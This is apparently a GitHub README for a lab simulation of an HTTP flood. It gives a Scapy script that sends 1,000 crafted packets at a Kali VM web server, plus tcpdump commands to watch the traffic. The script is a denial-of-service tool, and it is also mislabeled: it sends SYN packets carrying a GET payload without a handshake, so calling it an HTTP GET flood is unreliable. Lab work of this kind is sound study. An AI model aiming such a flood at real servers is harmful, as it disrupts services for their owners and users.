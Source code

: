 # HTTP Flood Attack Simulation

This documentation provides an overview of an HTTP flood attack simulation conducted using Scapy and tcpdump. The simulation targets a web server running on a Kali Linux VM, with traffic generated from an Ubuntu VM.

## Overview

The objective of this simulation is to generate a high volume of HTTP GET requests aimed at a web server hosted on a Kali Linux VM. The traffic is generated from an Ubuntu VM using a custom Python script with Scapy. Since Suricata isn't capturing the logs, `tcpdump` is utilized to monitor and capture the HTTP traffic on the network interface.

## Setup

### Environment

- **Target Machine (Kali Linux VM)**
  - IP Address: `192.168.100.50`
  - Web Server: Python's `http.server` module on port `80`
  
- **Attack Machine (Ubuntu VM)**
  - Script: Python script using Scapy to perform HTTP GET flood

### Web Server Configuration

On the Kali Linux VM, start the web server using Python:

```bash
sudo python3 -m http.server 80
```

![h1](https://github.com/user-attachments/assets/7703dab9-df05-4b79-a039-7c4ba9f7c544)


### Traffic Capturing
On the Kali Linux VM, use tcpdump to capture HTTP traffic on the network interface:

```bash

sudo tcpdump -i eth0 port 80
```

![h2](https://github.com/user-attachments/assets/deb952a0-a63e-4e2d-8c91-2743dda3f843)


## Attack Script
The attack script is designed to send multiple HTTP GET requests to the target server.

**Script: http_flood.py**
```python

from scapy.all import *
import time

target_ip = "192.168.100.50"  # Replace with the IP of your Kali Linux VM
target_port = 80              # Port 80 for HTTP
num_requests = 1000           # Adjust the number of requests as needed

# Craft the HTTP GET request payload
http_payload = (
    "GET / HTTP/1.1\r\n"
    "Host: " + target_ip + "\r\n"
    "User-Agent: Scapy\r\n"
    "Connection: keep-alive\r\n\r\n"
)

# Function to send HTTP GET requests with logging
def send_http_flood():
    for i in range(1, num_requests + 1):
        # Build the IP and TCP layers
        ip = IP(dst=target_ip)
        tcp = TCP(dport=target_port, flags="S")  # SYN flag
        packet = ip/tcp/http_payload  # Combine layers with payload

        # Send the packet
        send(packet, verbose=0)

        # Print information about the packet being sent
        print(f"Sent packet {i}/{num_requests} to {target_ip}:{target_port}")

# Execute the flood with a start and end message
if __name__ == "__main__":
    print(f"Starting HTTP flood attack on {target_ip}:{target_port} with {num_requests} requests...")
    send_http_flood()
    print("HTTP flood attack completed.")
```
### How to Run the Script
1. Ensure that the target web server is running on the Kali Linux VM.
2. Run the **http_flood.py** script on the Ubuntu VM:

```bash

sudo python3 http_flood.py
```


 https://github.com/user-attachments/assets/8c61478c-59d9-4784-90fe-5158293bb450



3. Observe the traffic using **tcpdump** on the Kali Linux VM.

## Traffic Monitoring
To monitor the incoming HTTP flood traffic, use the following command on the Kali Linux VM:

```bash
sudo tcpdump -i eth0 port 80
```
This command captures and displays the HTTP traffic on the specified interface, allowing for analysis of the attack's impact.


![h3](https://github.com/user-attachments/assets/abce8cc3-ae59-43ad-9099-fa1bdb59874e)
![h4](https://github.com/user-attachments/assets/e973c7f5-4d10-4600-a3d5-08df6a74180e)


## Conclusion
This simulation demonstrates a basic HTTP flood attack using Scapy. It highlights the process of generating high volumes of HTTP GET requests and capturing the resulting traffic using tcpdump. This method can be used for testing and understanding the impact of such attacks on web servers.

## Contributions
Contributions to this project are not welcome. 
